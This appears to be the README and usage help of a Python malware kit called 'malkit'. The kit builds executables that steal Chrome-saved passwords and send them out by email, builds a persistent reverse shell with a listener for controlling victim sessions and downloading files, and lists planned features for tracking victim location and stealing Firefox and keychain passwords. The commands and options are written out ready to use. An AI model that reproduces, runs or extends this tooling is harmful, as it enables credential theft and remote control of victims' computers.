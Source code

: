 ```
usage: python malkit.py build_chromepass [-h] [--load] [--email] [--reverse_shell]
                                  [--no_error]
                                  [--errormsg Error message to appear]
                                  [--address Email address to send details to, if Email was chosen]
                                  [--port Port for reverse connection, if Reverse shell was chosen.]
                                  [--host Host reverse connection, if Reverse shell was chosen.]

optional arguments:
  -h, --help            show this help message and exit
  --load
  --email
  --reverse_shell
  --no_error
  --errormsg Error message to appear
  --address Email address to send details to, if Email was chosen
  --port Port for reverse connection, if Reverse shell was chosen.
  --host Host reverse connection, if Reverse shell was chosen.

example:

 python malkit.py build_chromepass --email --address myemail@gmail.com
 python malkit.py build_chromepass --reverse_shell --host 127.0.0.1 -p 4444
 python malkit.py build_chromepass --load myfile.conf
 ```  
 

 * Building an executable that grabs and sends chrome-saved passwords through email
    - `python malkit.py build_chromepass --email --address youremailaddress@yourdomain.com`  

 * Creating a persistent reverse_shell with additional features
    - `python malkit.py build_malware --host 127.0.0.1 -p 444`
    - Replace the host with your external/internal ip as needed
    - Replace the port as needed
    - Make sure you build the listener as well and run it.  
 
 * Creating a listener for the malware
    - `python malkit.py build_listener -p 444`
    - This is the listener for the malware
    - While in the shell, you can use the `list` command to see active sessions.
    - You can interact with a session by using the command: `interact::SESSION_NUMBER` where `SESSION_NUMBER` is the number of the session you want to connect with. 
    - To go back into listener mode after interacting with a session, use the command `<bg` or `<background`
    - Other commands while interacting have been added but still experimental:
      - `<download` - Downloads a file from the server


## Todo
 - Reducing `malware` file size to around 4-6 MB, possible by making the original `malware` download the rest of the payload via the reverse connection.
 - Sending Real-time precise location of the victim (***completed, releases next update***)
 - Also steal Firefox passwords (***Completed, releases next update***)
 - Also steal passwords from other programs, such as keychains(***in progress***)
 - Better encryption (***Completed, releases into beta version***)
   

[Python]: <https://www.anaconda.com/distribution/#download-section>
[VS build tools]: <https://visualstudio.microsoft.com/thank-you-downloading-visual-studio/?sku=BuildTools&rel=16>
